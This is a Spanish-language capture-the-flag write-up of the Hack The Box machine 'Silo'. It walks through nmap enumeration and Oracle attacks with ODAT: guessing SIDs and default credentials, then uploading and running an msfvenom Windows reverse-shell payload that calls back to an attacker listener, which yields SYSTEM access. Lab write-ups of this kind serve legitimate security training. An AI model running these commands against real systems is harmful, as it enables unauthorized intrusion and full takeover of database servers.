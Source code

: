 ```yaml
---
layout: post
title: HTB_Silo
date: 2023/07/10
slug: HTB_Silo
heroImage: /assets/machines.jpg
---
```


# Silo {-}

## Introduccion {-}

La maquina del dia 11/08/2021 se llama Silo
.

El replay del live se puede ver aqui

[![S4vitaar Silo maquina](https://img.youtube.com/vi/-nb98Pb8oP0/0.jpg)](https://www.youtube.com/watch?v=-nb98Pb8oP0&t=910s)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.82
```
ttl: 127 -> maquina Windows

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.82
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.82 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 10.10.10.82 -oN targeted
```


| Puerto | Servicio   | Que se nos occure?             | Que falta? |
| ------ | ---------- | ------------------------------ | ---------- |
| 80     | http       | Web, fuzzing                   |            |
| 135    | msrpc      |                                |            |
| 139    | netbios    |                                |            |
| 445    | smb        | Null session                   |            |
| 1521   | oracle-tns | Attacke con ODAT               |            |
| 5985   | msrpc      | Puertos por defecto de windows |            |
| 47001  | msrpc      | Puertos por defecto de windows |            |
| 49152  | msrpc      | Puertos por defecto de windows |            |
| 49153  | msrpc      | Puertos por defecto de windows |            |
| 49154  | msrpc      | Puertos por defecto de windows |            |
| 49155  | msrpc      | Puertos por defecto de windows |            |
| 49159  | msrpc      | Puertos por defecto de windows |            |
| 49160  | msrpc      | Puertos por defecto de windows |            |
| 49161  | msrpc      | Puertos por defecto de windows |            |
| 49162  | msrpc      | Puertos por defecto de windows |            |


### Analyzando el SMB {-}

```bash
crackmapexec smb 10.10.10.82
smbclient -L 10.10.10.82 -N
```

Vemos que estamos en frente de una maquina Windows Server 2021 R2 de 64 bit pro que se llama **SILO** en el dominio **SILO** y poco mas

### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.82
```

Nada muy interressante aqui


#### Checkear la web {-}

Sabemos que es un IIS 8.5 y asp.net pero poco mas. Vamos a fuzzear routas.


## Vulnerability Assessment {-}

### Oracle ataque con ODAT {-}

#### Installacion de ODAT {-}

```bash
git clone https://github.com/quentinhardy/odat
cd odat
git submodule init
git submodule update
sudo apt-get install libaio1 python3-dev alien python3-pip
pip3 install cx_Oracle
```

Como la maquina victima es de 64 bits, descargamos los client basic sdk y sqlplus de la web de oracle

```bash
mkdir isolation
cd isolation
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-basic-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-sqlplus-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-devel-21.1.0.0.0-1.x86_64.rpm
```

ahora transformamos los `.rpm` en `.deb` y lo installamos

```bash
alien --to-deb *.rpm
dpkg -i *.deb
```

Añadimos las variables de entorno el la .zshrc

```bash
ls /usr/lib/oracle

#Output
21

vi ~/.zshrc

export ORACLE_HOME=/usr/lib/oracle/21/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
```

Checkeamos que todo se aya installado bien

```bash
sqlplus64
python3 odat.py --help
```

#### Ataque con ODAT {-}

1. Buscamos si encontramos SID's

    ```bash
    python3 odat.py sidguesser -s 10.10.10.82
    ```

1. Ataque de typo password guesser

    ```bash
    locate oracle_ | grep "pass"
    cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt | tr ' ' '/' | > passwords
    python3 odat.py passwordguesser -s 10.10.10.82 -d XE --accounts-file passwords
    ```

1. Ahora que tenemos un usuario y una contraseña utilizamos el parametro utlfile que permite descargar, uploadear y supprimir ficheros

    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f exe -o shell.exe
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger"
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger" --putFile /Temp shell.exe
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger" --putFile /Temp shell.exe
    ```

1. No tenemos sufficientes privilegios para subir archivos pero ODAT tiene un parametro `--sysdba` que nos puede ayudar

    ```bash
    python3 odat.py utlfile -s 10.10.10.82 -d XE -U "scott" -P "tiger" --putFile /Temp shell.exe --sysdba
    ```

1. Intentamos ganar accesso al systema
## Vuln exploit & Gaining Access {-}

### Ganando accesso con ODAT {-}

Nos ponemos en escucha por el puerto 443

```bash
rlwrap nc -nlvp 443
```

Intentamos ejecutar el exploit con odat

```bash
python3 odat.py --help
python3 odat.py externaltable -s 10.10.10.82 -d XE -U "scott" -P "tiger" --sysdba --exec /Temp shell.exe
```

Ya hemos ganado accesso al systema y ademas somos nt authority\system que significa que no es necessario hacer escalada de privilegios.
